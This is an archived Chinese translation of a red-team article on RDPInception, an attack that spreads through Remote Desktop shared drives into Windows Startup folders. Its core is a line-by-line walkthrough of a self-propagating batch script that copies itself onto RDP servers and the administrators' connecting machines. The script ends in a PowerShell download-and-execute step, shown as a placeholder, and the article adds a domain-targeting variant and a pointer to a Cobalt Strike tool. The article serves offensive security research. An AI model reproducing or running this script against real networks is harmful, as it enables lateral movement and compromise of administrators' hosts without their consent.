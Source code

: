 ```yaml
---
layout: post
title: 【技术分享】RDPInception：另类RDP攻击手段（附演示视频）
categories:
- Pocket
tags:
---
```

原文地址：http://bobao.360.cn/learning/detail/4055.html

收藏时间：2017-07-12 04:53:04

<div  lang="zh">

<div id="RIL_IMG_1" class="RIL_IMG"><img src="/media/posts_images/2017-07-12-1806896080/1"/></div>
<p nodeIndex="58"><span nodeIndex="220">译者：</span><a href="http://bobao.360.cn/member/contribute?uid=2819002922" target="_blank" textvalue="興趣使然的小胃" nodeIndex="221"><span nodeIndex="222">興趣使然的小胃</span></a></p>
<p nodeIndex="59"><span nodeIndex="223">预估稿</span><span nodeIndex="224">费：140RMB</span></p>
<p nodeIndex="60"><span nodeIndex="225">投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿</span></p>

<p nodeIndex="62"><span nodeIndex="227"><strong nodeIndex="228"><span nodeIndex="229">一、前言</span></strong></span></p>

<hr nodeIndex="230"><p nodeIndex="64"><span nodeIndex="231">系统管理员经常使用远程桌面（Remote Desktop）来远程管理计算机。对许多机构及组织来说，这种行为意味着被远程访问的主机需要被放在DMZ区中或者只开放TCP 3389端口的隔离网络中。</span>    <br nodeIndex="232"></p>
<p nodeIndex="65"><span nodeIndex="233">在远程桌面中，用户可以“选择要在远程会话中使用的设备和资源”，这些设备或资源包括本地磁盘共享等，如下图所示：</span></p>
<div id="RIL_IMG_2" class="RIL_IMG"><img src="/media/posts_images/2017-07-12-1806896080/2"/></div>
<p nodeIndex="67"><span nodeIndex="235">已经有许多研究人员对远程桌面的攻击路径以及存在的安全风险进行了理论上的分析，其中经常被提及的一个安全风险就是接受远程桌面连接请求的目标服务器可以对连入的主机发起攻击。</span><a href="https://www.mdsec.co.uk/services/red-teaming/" nodeIndex="236"><span nodeIndex="237">ActiveBreach</span></a><span nodeIndex="238">团队的</span><a href="https://www.twitter.com/vysecurity" nodeIndex="239"><span nodeIndex="240">Vincent Yiu</span></a><span nodeIndex="241">对这种名为RDPInception的攻击做了分析，提供了概念验证（PoC，proof of concept）脚本，利用这个脚本可以以递归方式对RDP服务器的访客发起攻击。ActiveBreach团队在模拟对抗演练中多次利用到了这种技术，取得了非常不错的效果。</span></p>

<p nodeIndex="69"><span nodeIndex="244"><strong nodeIndex="245"><span nodeIndex="246">二、RDPInception攻击的相关概念</span></strong></span></p>

<hr nodeIndex="247"><p nodeIndex="71"><span nodeIndex="248">RDPInception的攻击原理基于一个非常简单的概念，那就是“启动（Startup）”程序，也就是说，利用开始菜单中的“启动”目录强迫用户在登陆时执行代码。</span>    <br nodeIndex="249"></p>
<p nodeIndex="72"><span nodeIndex="250">考虑以下攻击场景：</span></p>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-07-12-1806896080/3"/></div>
<p nodeIndex="74"><span nodeIndex="252">在这个攻击场景中，攻击者已经攻陷了数据库服务器。管理员通过RDP方式连入跳板节点（Jump box），然后再利用RDP方式依次连入域控（Domain Controller）、文件服务器以及数据库服务器。在这条连接路径中，攻击者可以在任意节点中发起RDPInception攻击。从理论上讲，只要管理员下次再次登录每台机器，攻击者就可以利用这种攻击方式获取整条路径中每台服务器的shell接口。在这个场景中，攻击者唯一需要的就是在DB001上发起RDPInception攻击，剩余的程序可以自动完成。</span></p>
<p nodeIndex="75"><span nodeIndex="253">攻击者可以在受限环境中使用这种技术实施横向渗透攻击，无需用户凭证或利用漏洞。</span></p>

<p nodeIndex="77"><span nodeIndex="256"><strong nodeIndex="257"><span nodeIndex="258">三、RDPInception的适用场景</span></strong></span></p>

<hr nodeIndex="259"><p nodeIndex="79"><span nodeIndex="260">这种攻击技术最适合在高度受限的环境中使用，特别是当其他横向渗透技术以及权限提升技术无法完成任务时，攻击者就可以考虑使用这种方法。</span>    <br nodeIndex="261"></p>
<p nodeIndex="80"><span nodeIndex="262">此外，我们来考虑一种攻击场景，其中公司的某位员工在早上4点时通过远程方式登录服务器，整个登录会话持续了5分钟。在这种情况下，即使黑客能够持续不断地监视连入的RDP会话，也很难在这么短的时间内部署攻击环境。此外，这种监视动作很大，因为攻击者需要定期使用“query user”命令来判断当前主机是否有RDP连入会话，如果攻击者每隔1小时查询一次RDP会话，那么在这种攻击场景中，攻击者就会错过良机。RDPInception技术完全不需要持续性监视RDP连入会话。</span></p>

<p nodeIndex="82"><span nodeIndex="265"><strong nodeIndex="266"><span nodeIndex="267">四、RDPInception原理</span></strong></span></p>

<hr nodeIndex="268"><p nodeIndex="84"><span nodeIndex="269">RDPInception的概念验证程序是一个较为简单的批处理脚本，详细步骤如下所示。</span>    <br nodeIndex="270"></p>
<p nodeIndex="85"><span nodeIndex="271">关闭echo功能。</span></p>

<pre class="brush:bash;toolbar:false" nodeIndex="87">
@echo off
</pre>
<p nodeIndex="88"><span nodeIndex="272">设置一个短期计时器，确保tsclient已被加载。</span>    <br nodeIndex="273"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="90">
timeout 1 >nul 2>&1
</pre>
<p nodeIndex="91"><span nodeIndex="274">在访客主机以及目标主机上创建临时目录。</span>    <br nodeIndex="275"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="93">
mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1
</pre>
<p nodeIndex="94"><span nodeIndex="276">将批处理脚本拷贝到临时目录中。</span>    <br nodeIndex="277"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="96">
copy run.bat C:\temp >nul 2>&1
copy run.bat \\tsclient\c\temp >nul 2>&1
</pre>
<p nodeIndex="97"><span nodeIndex="278">确保%TEMP%目录中不存在某个文本文件。</span>    <br nodeIndex="279"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="99">
del /q %TEMP%\temp_00.txt >nul 2>&1
</pre>
<p nodeIndex="100"><span nodeIndex="280">在访客主机以及目标主机上搜索启动目录。</span>    <br nodeIndex="281"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="102">
set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*
echo|%dirs%|findstr /i “Microsoft\Windows\Start Menu\Programs\Startup”>>”%TEMP%\temp_00.txt”
echo|%dirs2%|findstr /i “Microsoft\Windows\Start Menu\Programs\Startup”>>”%TEMP%\temp_00.txt”
</pre>
<p nodeIndex="103"><span nodeIndex="282">遍历这些目录，尝试将批处理脚本传播到这些目录中。</span>    <br nodeIndex="283"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="105">
for /F “tokens=*” %%a in (%TEMP%\temp_00.txt) DO (
copy run.bat “%%a” >nul 2>&1
copy C:\temp\run.bat “%%a” >nul 2>&1
copy \\tsclient\c\temp\run.bat “%%a” >nul 2>&1
)
</pre>
<p nodeIndex="106"><span nodeIndex="284">清理%TEMP%文件。</span>    <br nodeIndex="285"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="108">
del /q %TEMP%\temp_00.txt >nul 2>&1
</pre>
<p nodeIndex="109"><span nodeIndex="286">使用PowerShell来下载执行攻击程序。</span>    <br nodeIndex="287"></p>

<pre class="brush:bash;toolbar:false" nodeIndex="111">
powershell.exe <cradle here>
</pre>

<p nodeIndex="113"><span nodeIndex="290"><strong nodeIndex="291"><span nodeIndex="292">五、攻击范围</span>    <br nodeIndex="293"></strong></span></p>

<hr nodeIndex="294"><p nodeIndex="115"><span nodeIndex="295">为了在给定条件下精确筛选攻击目标，攻击者在下载或执行攻击载荷时通常会遵循某些约束条件。</span>    <br nodeIndex="296"></p>
<p nodeIndex="116"><span nodeIndex="297">以下环境变量经常作为约束条件使用，比如：</span></p>
<p nodeIndex="117"><span nodeIndex="298">1、用户名</span></p>
<p nodeIndex="118"><span nodeIndex="299">2、用户所在域</span></p>
<p nodeIndex="119"><span nodeIndex="300">3、子网信息</span></p>
<p nodeIndex="120"><span nodeIndex="301">比如，我们可以使用用户所在域对攻击脚本进行修改：</span></p>

<pre class="brush:bash;toolbar:false" nodeIndex="122">
If “<DOMAINNAME>“==”%USERDOMAIN%” (<powershell cradle here>)
</pre>

<p nodeIndex="124"><span nodeIndex="303"><strong nodeIndex="304"><span nodeIndex="305">六、RDPInception工具    <br nodeIndex="306"></span></strong></span></p>

<hr nodeIndex="307"><p nodeIndex="126"><span nodeIndex="308">我们上传了一个攻击</span><a href="https://github.com/mdsecactivebreach/RDPInception/" nodeIndex="309"><span nodeIndex="310">脚本</span></a><span nodeIndex="311">，可以依托Cobalt Strike框架自动化完成攻击过程，在这个项目中还有一个批处理脚本，大家可以自行修改以手动实施攻击，或者与其他工具（如Empire）配合使用。</span>    <br nodeIndex="312"></p>
<p nodeIndex="127"><span nodeIndex="313">如果你直接运行rdpinception，选择HTTP、HTTPS或者DNS类型的监听器，那么攻击过程就不会受到约束条件限制。</span></p>
<p nodeIndex="128"><span nodeIndex="314">如果你以“rdpinception ACME”方式运行攻击脚本，那么攻击过程的约束条件就是ACME域，攻击脚本只会在加入到ACME域的主机上运行。</span></p>
<p nodeIndex="129"><span nodeIndex="315">演示视频如下：</span></p>

<p nodeIndex="131"><span nodeIndex="317">攻击所需的所有工具都可以从Github上的</span><a href="https://github.com/mdsecactivebreach/RDPInception/" nodeIndex="318">ActiveBreach</a><span nodeIndex="319">仓库中获取。</span>    <br nodeIndex="320"></p>

</div>